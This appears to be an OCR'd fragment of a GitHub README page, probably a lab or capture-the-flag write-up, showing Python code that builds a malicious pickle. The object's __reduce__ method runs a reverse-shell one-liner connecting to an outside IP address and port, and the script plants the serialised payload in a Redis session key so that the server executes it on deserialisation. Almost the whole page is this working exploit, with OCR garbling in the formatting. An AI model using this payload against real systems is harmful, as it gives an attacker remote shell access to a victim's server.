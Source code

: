 
制作代码

```
*import*pickle
*import*platform
*import*redis

*class*eval_code(object):

    *def*__reduce__(self):
        /#platform.popen("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'")/

*return*(platform.popen,(*"python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"172.168.46.145\",6080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"*,))


eval_whoami = eval_code()

payload = pickle.dumps(eval_whoami)


r = redis.Redis(host=*'127.0.0.1'*,port=6379)
r.set(*'sessionluffy6a3-cedc-4c50-a66a-57f5124a6f2a'*,payload)

```


![](README/luffy14.png)


![](README/luffy15.png)
